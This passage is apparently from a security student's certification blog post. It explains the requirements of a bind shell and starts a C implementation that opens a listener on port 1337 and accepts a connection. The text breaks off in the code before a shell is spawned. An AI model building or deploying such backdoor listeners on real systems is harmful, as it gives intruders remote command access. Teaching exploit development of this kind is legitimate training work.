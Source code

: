 _This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:_  
_ __<http://securitytube-training.com/online-courses/securitytube-linux-
assembly-expert/>_  
_ __**Student ID:** SLAE-885_  
_**Assignment number:** 1_  
_**Github repo:** <https://github.com/abatchy17/SLAE> _  
  
So I finished OSCP little over two months ago, took a healthy break and
created a[ study plan for OSCE](http://www.abatchy.com/2017/03/osce-study-
plan.html). SLAE has been recommended by many and was the first item on the
list as prep for OSCE, as well as to take some time and relax. To get the SLAE
certificate you're required to solve seven assignments, this is the first one
of them.  
  

## What are the requirements for a bind shell?

A bind shell requires the following:  

  1. Creates a listener (acts as a server) on a local port.
  2. Return a shell for an incoming connection.

  

## TCP bind shell in C

    
    
    #include <stdio.h>  
    #include <sys/types.h>   
    #include <sys/socket.h>  
    #include <netinet/in.h>  
      
    int host_sockid;    // sockfd for host  
    int client_sockid;  // sockfd for client  
          
    struct sockaddr_in hostaddr;            // sockaddr struct  
      
    int main()  
    {  
        // Create socket  
        host_sockid = socket(PF_INET, SOCK_STREAM, 0);  
      
        // Initialize sockaddr struct to bind socket using it  
        hostaddr.sin_family = AF_INET;  
        hostaddr.sin_port = htons(1337);  
        hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);  
      
        // Bind socket to IP/Port in sockaddr struct  
        bind(host_sockid, (struct sockaddr*) &hostaddr, sizeof(hostaddr));  
          
        // Listen for incoming connections  
        listen(host_sockid, 2);  
      
        // Accept incoming connection, don't store data, just use the sockfd created  
        client_sockid = accept(host_sockid, NULL, NULL);  
      